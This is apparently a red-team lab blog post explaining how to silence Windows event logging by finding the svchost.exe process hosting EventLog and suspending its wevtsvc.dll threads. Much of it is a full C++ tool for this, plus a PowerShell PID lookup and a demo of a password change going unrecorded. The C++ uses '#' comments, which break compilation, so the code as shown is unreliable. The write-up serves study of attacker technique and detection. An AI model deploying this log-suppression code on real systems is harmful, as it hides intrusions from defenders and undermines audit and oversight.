 ```yaml
---
layout: post
title: "disabling windows event logs by suspending eventlog service threads"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /defense-evasion/
---
```


# Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service (Windows Eventlog in this case) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

{% hint style="info" %}
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
{% endhint %}

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](<../../.gitbook/assets/image (618).png>)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](<../../.gitbook/assets/image (620).png>)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](<../../.gitbook/assets/image (621).png>)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](<../../.gitbook/assets/image (622).png>)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](<../../.gitbook/assets/suspended-threads-no-events (1).gif>)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

{% hint style="warning" %}
Resuming threads will write out the events to the events log as if the threads had not been suspended in the first place.
{% endhint %}

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe (hosting EventLog) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process (from step 3)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
	IN HANDLE          ThreadHandle,
	IN THREADINFOCLASS ThreadInformationClass,
	OUT PVOID          ThreadInformation,
	IN ULONG           ThreadInformationLength,
	OUT PULONG         ReturnLength
	);

int main()
{
	HANDLE serviceProcessHandle;
	HANDLE snapshotHandle;
	HANDLE threadHandle;

	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	WCHAR remoteModuleName[128] = {};
	HMODULE serviceModule = NULL;
	MODULEINFO serviceModuleInfo = {};
	DWORD_PTR threadStartAddress = 0;
	DWORD bytesNeeded = 0;

	myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

	THREADENTRY32 threadEntry;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
	SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

	SERVICE_STATUS_PROCESS serviceStatusProcess = {};

	# Get PID of svchost.exe that hosts EventLog service
	QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
	DWORD servicePID = serviceStatusProcess.dwProcessId;

	# Open handle to the svchost.exe
	serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
	snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	# Get a list of modules loaded by svchost.exe
	EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		serviceModule = modules[i];

		# Get loaded module's name
		GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

		if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
		{
			printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
			GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
		}
	}

	# Enumerate threads
	Thread32First(snapshotHandle, &threadEntry);
	while (Thread32Next(snapshotHandle, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == servicePID)
		{
			threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
			NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
			
			# Check if thread's start address is inside wevtsvc.dll memory range
			if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
			{
				printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

				# Suspend EventLog service thread
				SuspendThread(threadHandle);
				Sleep(2000);
			}
		}
	}

	return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe (PID 2196)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](<../../.gitbook/assets/demo-suspending-eventlog-threads (1).gif>)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" %}
@spotheplanet
